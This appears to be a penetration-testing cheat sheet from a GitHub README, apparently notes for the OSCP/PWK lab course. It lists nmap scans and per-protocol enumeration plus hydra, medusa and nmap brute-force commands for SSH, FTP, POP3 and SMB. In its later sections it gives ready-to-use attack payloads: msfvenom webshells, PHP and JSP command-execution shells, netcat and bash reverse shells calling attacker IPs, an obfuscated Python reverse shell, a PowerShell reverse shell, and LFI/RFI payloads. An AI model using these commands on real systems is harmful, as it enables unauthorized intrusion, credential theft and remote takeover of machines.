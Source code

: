 ## automate VPN
creating txt file to automate vpn authentication
```sh
tar xvzf file.tar.gz  
echo 'OS-#####' > cred.txt  
echo ' #######' >> cred.txt  
vi auth-user-pass cred.txt  
openvpn OS-####-PWK.ovpn 
```

## Default Nmap Scanning<br />
```sh
nmap -sU -sV -n --top-ports 200 192.168.1.30  > /root/PWK-Lab/192.168.1.30/nmap-udp<br />
nmap -sT -sV -A -O -v -p 1-65535 192.168.1.30 > /root/PWK-Lab/192.168.1.30/nmap-tcp<br />
```
-sS stealth scanning<br />
```sh
nmap -vv -Pn -A -sC -sS -T 4 -p- 10.x.x.x<br />
nmap -p- -sS -A 10.x.x.x<br />
```
Vulnerability Scanning :  ``` nmap -sS -sV --script=vulscan/vulscan.nse 10.x.x.x ```<br />
OS detection :  ``` nmap -O -v 10.x.x.x ```<br /><br />

Automated scanning tools<br />
[Reconnoitre : ](https://github.com/codingo/Reconnoitre)
```python /root/Recon/Reconnoitre/reconnoitre.py -t 10.x.x.x -o /root/PWK-Lab/10.x.x.x/ --services``` <br />
[OneTwoPunch : ](https://github.com/superkojiman/onetwopunch)
```vi targets.txt; onetwopunch.sh -t targets.txt -p all -n "-sV -O --version-intensity=9" ```<br />

unicornscan -i tap0 -I -mT 10.x.x.x:a <br />
masscan -p0-65535 10.x.x.x --rate 150000 -oL output.txt <br />

## Scanning per protocols...
## - **SSH(22)** <br />
Bruteforce : <br />
```sh
nmap -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=users.txt --script-args ssh-brute.timeout=4s 10.x.x.x 
hydra -l user -P /usr/share/wordlists/rockyou.txt  10.x.x.x ssh -t 4
```
ref : https://github.com/g0tmi1k/debian-ssh  && https://blog.g0tmi1k.com/2010/04/pwnos/ <br />
OpenF*** (Apache mod_ssl < 2.8.7 OpenSSL) 764.c <br />

## - **FTP(21)** <br />
Default cred : anonymous/anonymous | ftp/ftp | ftpuser|ftpuser<br />

```sh
nmap -sV -Pn -vv -p 21  --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221 10.x.x.x
nmap --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 10.x.x.x
check windows OS files : https://www.quora.com/How-can-I-tell-what-version-of-Windows-is-installed-on-a-hard-drive-without-booting-it 
```
Bruteforce : <br />
```sh
medusa -h 10.x.x.x -u user -P /root/SecLists/Passwords/bt4-password.txt -M ftp 
./root/PWK-Lab/FTP/ftp-user-enum-1.0/ftp-user-enum.pl -U /root/PWK-Lab/fuzzdb/bruteforce/names/simple-users.txt -t 10.x.x.x" 
```

## - **SMTP(25)**<br />
**vulnerability check** <br />
```sh 
nmap --script smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 10.x.x.x 
```
**enumerating users** <br />
```sh 
nmap --script smtp-enum-users.nse 10.x.x.x

smtp-user-enum -M VRFY -U users.txt -t 10.x.x.x
smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t 10.x.x.x
smtp-user-enum -M VRFY -U  /usr/share/seclists/Usernames/Names/names.txt -t 10.x.x.x
```
connecting to mailsvr: <br />
```sh 
telnet IPADDRESS 25
nc -nvv IPADDRESS 25
```
msf module : auxiliary/scanner/smtp/smtp_enum<br />

## -  **POP3(110)**<br />
**Bruteforce** : ```hydra -L usr.txt -P /usr/share/wordlists/fasttrack.txt -t20 10.x.x.x -s55007 -I pop3```<br />

POP3 command
```sh 
USER boris
PASS *****
LIST 
RETR 1 
```

## -  **SNMP(161)**<br />
**Default Community Strings** : public/private/manager<br />

```sh 
snmp-check -t [IP] -c public 
snmpwalk -c public -v1 10.0.0.0 
nmap -sU --open -p 161 10.11.1.0/24 -oG mega-snmp.txt 
sudo nmap -sU -p 161 --script default,snmp-sysdescr 10.11.1.0/24 
onesixtyone -c community -i ips 
```
cf. for ip in $(seq 1 254); do echo 10.11.1.$ip; done > ips<br />
```sh 
nmap 10.11.1.* -p161 --open -oG - | awk '/161\/open/{print $2}' 
```

 
## -  **SMB(139,445)**<br />
Checking SMB port open/running : 
```sh 
nmap -A -p 139,445 10.11.1.1-254 -oG smb_service.txt; grep Up smb_service.txt | cut -d "" "" -f 2  
nmap 10.11.1.* -p139,445 --open -oG - | awk '/139\/open.*445\/open/{print $2}'  
```
**vulnerability scanning** : ```nmap -p 139,135,445 -vv --script=smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse 10.x.x.x```

**enumerating users** : ```nmap --script smb-enum-users.nse -p445 10.x.x.x  ```
```nmap -sU -sS --script smb-enum-users.nse -p U:137,T:139 10.x.x.x  ```


**smbclient**<br />
```sh 
smbclient -L //10.x.x.x/share -U user 
smbclient //10.x.x.x//IPC$ -N  
```
**checking access** <br />
```sh 
acccheck -v -t 10.x.x.x  -u user -P /usr/share/dirb/wordlists/common.txt  
acccheck -v -t 10.x.x.x -U /root/Vulnhub/Stapler/user.txt  -P /usr/share/dirb/wordlists/common.txt  
```
**smbmap**<br />
```sh 
smbmap -u user -p user -d share -H 10.x.x.x  
smbmap -u user -p .bash_history -d share -H 10.x.x.x  
smbmap -H 10.x.x.x\share -u user -p '.bash_history' -L  
```
ref : https://hackercool.com/2016/07/smb-enumeration-with-kali-linux-enum4linuxacccheck-smbmap/<br />


## MISC

- metasploit issue : <br />
sudo apt-get update <br />
service postgresql restart <br />
msfdb reinit  <br />
cf : https://github.com/rapid7/metasploit-framework/issues/9556 <br />

<br />

## Windows Shell
```sh 
//Non-Staged :  (windows/shell_reverse_tcp) && nc -nlvp 443
//Staged     : (windows/shell/reverse_tcp) && use exploit/multi/handler
```

**-netcat**
```sh 
//Windows(Victim) : nc.exe 10.11.0.69 4444 -e cmd.exe
//eg. C:\Inetpub\Scripts\nc.exe -nv 10.11.0.45 1234 -e C:\WINDOWS\System32\cmd.exe
//Kali(Attacker) : nc -nlvp 4444
```
**-Creating Webshell**
```sh 
ASP : msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.45 LPORT=2323 -f asp -a x86 --platform win -o shell.asp
      
JSP : msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.42 LPORT=4444 -f raw > shell.jsp
    <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
      
PHP : <?php echo passthru($_GET['cmd']); ?>
      <?php echo shell_exec($_GET['cmd']); ?>
```
ref : https://netsec.ws/?p=331

**-Python Oneliner ReverseShell on CMD**  *Make sure updating IP address and Port. *
```sh 
C:\Python26\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.*.*.*', ***)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```
```sh 
powershell -exec bypass -c Import-Module .\Invoke-PowerShellTcp.ps1;Invoke-PowerShellTcp -Reverse -IPAddress 10.*.*.* -Port ****
```
ref : https://github.com/samratashok/nishang<br />

**Powershell location**<br />
```sh 
-32-bit (x86) PowerShell executable C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe  
-64-bit (x64) Powershell executable C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe  
```

## Local File Inclusion (LFI) 
Put files locally on the target and trigger webshell by browsing the page. <br />
```sh 
http://target.com/?page=home
http://target.com/?page=./../../../../../../../../../etc/passwd%00
```
eg. https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion <br />

## Remote File Inclusion (RFI) 
Browse a remote page and trigger (remote) webshell page. <br />
```sh 
http://target.com/?page=http://attackerIP/evil.txt%00
```


## Linux Spawning a Reverse Shell
**-Netcat** <br />
```sh 
Target : 
bash -i >& /dev/tcp/192.168.1.69/443 0>&1 
nc -e /bin/sh 10.0.0.1 1234
//without -e : rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
Attacker : nc -nlvp 443
```
